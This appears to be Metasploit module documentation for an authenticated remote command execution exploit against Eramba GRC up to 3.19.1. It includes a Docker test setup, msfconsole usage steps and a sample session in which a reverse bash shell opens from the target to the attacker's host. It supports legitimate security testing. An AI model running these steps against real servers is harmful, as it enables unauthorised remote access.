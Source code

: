 ## Vulnerable Application

Eramba is open and free GRC software, used by many companies. It offer mainly risk management solution. Version up to 3.19.1 is vulnerable to authenticated remote command execution. It is neccessary to provide valid credentials. The application allows to execute arbitrary OS commands, which can lead to remote access. Application is available in [Docker format](https://www.eramba.org/learning/courses/12/episodes/274). However, after installation, debug mode needs to be enabled. Here's modified Docker compose file for simpler testing (`docker-compose.simple-install.yml`):

### Installation

Docker and docker-compose is required.

1. git clone https://github.com/eramba/docker
2. cd docker
3. Setup database credentials and public URL in `.env`
4. Copy following into `docker-compose.simple-install.yml` 
```
version: '3.19'
services:
  mysql:
    container_name: mysql
    image: mysql:8.0.28-oracle
    command: ["mysqld", "--disable-log-bin"]
    restart: always
    volumes:
      - db-data:/var/lib/mysql
      - ./mysql/conf.d:/etc/mysql/conf.d
      - ./mysql/entrypoint:/docker-entrypoint-initdb.d
    environment:
      MYSQL_DATABASE: ${DB_DATABASE}
      MYSQL_USER: ${DB_USERNAME}
      MYSQL_PASSWORD: ${DB_PASSWORD}
      MYSQL_ROOT_PASSWORD: ${MYSQL_ROOT_PASSWORD}
  redis:
    container_name: redis
    image: redis:6.0.16-alpine
    restart: always
  eramba:
    container_name: eramba
    image: ghcr.io/eramba/eramba:3.19.1
    restart: always
    ports:
      - 8443:443
    volumes:
      - data:/var/www/eramba/app/upgrade/data
      - app:/var/www/eramba
      - logs:/var/www/eramba/app/upgrade/logs
      - ./apache/ssl/mycert.crt:/etc/ssl/certs/mycert.crt
      - ./apache/ssl/mycert.key:/etc/ssl/private/mycert.key
      - ./apache/security.conf:/etc/apache2/conf-available/security.conf
      - ./apache/ports.conf:/etc/apache2/ports.conf
      - ./apache/vhost-ssl.conf:/etc/apache2/sites-available/000-default.conf
      - ./crontab/crontab:/etc/cron.d/eramba-crontab
    environment:
      DB_HOST: ${DB_HOST}
      DB_DATABASE: ${DB_DATABASE}
      DB_USERNAME: ${DB_USERNAME}
      DB_PASSWORD: ${DB_PASSWORD}
      CACHE_URL: ${CACHE_URL}
      USE_PROXY: ${USE_PROXY}
      PROXY_HOST: ${PROXY_HOST}
      PROXY_PORT: ${PROXY_PORT}
      USE_PROXY_AUTH: ${USE_PROXY_AUTH}
      PROXY_AUTH_USER: ${PROXY_AUTH_USER}
      PROXY_AUTH_PASS: ${PROXY_AUTH_PASS}
      PUBLIC_ADDRESS: ${PUBLIC_ADDRESS}
      DOCKER_DEPLOYMENT: ${DOCKER_DEPLOYMENT}
      LDAPTLS_REQCERT: ${LDAPTLS_REQCERT}
    links:
      - mysql
      - redis
    depends_on:
      - mysql
  cron:
    container_name: cron
    image: ghcr.io/eramba/eramba:3.19.1
    command: ["cron", "-f"]
    entrypoint: ["/docker-cron-entrypoint.sh"]
    restart: always
    volumes:
      - data:/var/www/eramba/app/upgrade/data
      - app:/var/www/eramba
      - logs:/var/www/eramba/app/upgrade/logs
      - ./docker-cron-entrypoint.sh:/docker-cron-entrypoint.sh
      - ./crontab/crontab:/etc/cron.d/eramba-crontab
      - .env:/var/www/docker.env
    environment:
      DB_HOST: ${DB_HOST}
      DB_DATABASE: ${DB_DATABASE}
      DB_USERNAME: ${DB_USERNAME}
      DB_PASSWORD: ${DB_PASSWORD}
      CACHE_URL: ${CACHE_URL}
      USE_PROXY: ${USE_PROXY}
      PROXY_HOST: ${PROXY_HOST}
      PROXY_PORT: ${PROXY_PORT}
      USE_PROXY_AUTH: ${USE_PROXY_AUTH}
      PROXY_AUTH_USER: ${PROXY_AUTH_USER}
      PROXY_AUTH_PASS: ${PROXY_AUTH_PASS}
      PUBLIC_ADDRESS: ${PUBLIC_ADDRESS}
      DOCKER_DEPLOYMENT: ${DOCKER_DEPLOYMENT}
      LDAPTLS_REQCERT: ${LDAPTLS_REQCERT}
    links:
      - mysql
      - redis
      - eramba
    depends_on:
      - eramba
volumes:
  app:
  data:
  logs:
  db-data:
```

5. `docker compose -f docker-compose.simple-install.yml up -d`

Shut down: `docker compose -f docker-compose.simple-install.yml down`


## Verification Steps

1. use exploit/linux/http/eramba_rce
2. set RHOSTS [target IP]
3. set LHOST [attacker's IP]
4. set USERNAME [username]
5. set PASSWORD [password]
6. exploit

## Options

### USERNAME

A valid username for Eramba application

### PASSWORD 

A valid password for Eramba application

## Scenarios

```
msf6 > use exploit/linux/http/eramba_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/eramba_rce)> set RHOSTS 192.168.95.145
RHOSTS => 192.168.95.145
msf6 exploit(linux/http/eramba_rce)> set LHOST 192.168.95.142
LHOST => 192.168.95.142
msf6 exploit(linux/http/eramba_rce)> set USERNAME admin
USERNAME => admin
msf6 exploit(linux/http/eramba_rce)> set PASSWORD P4ssw0rd!
PASSWORD => P4ssw0rd!
msf6 exploit(linux/http/eramba_rce) > exploit
[*] Started reverse TCP handler on 192.168.95.142:4444 
[*] Command shell session 1 opened (192.168.95.142:4444 -> 192.168.95.145:38460) at 2025-03-13 12:31:26 +0100
id

uid=33(www-data) gid=33(www-data) groups=33(www-data)


```

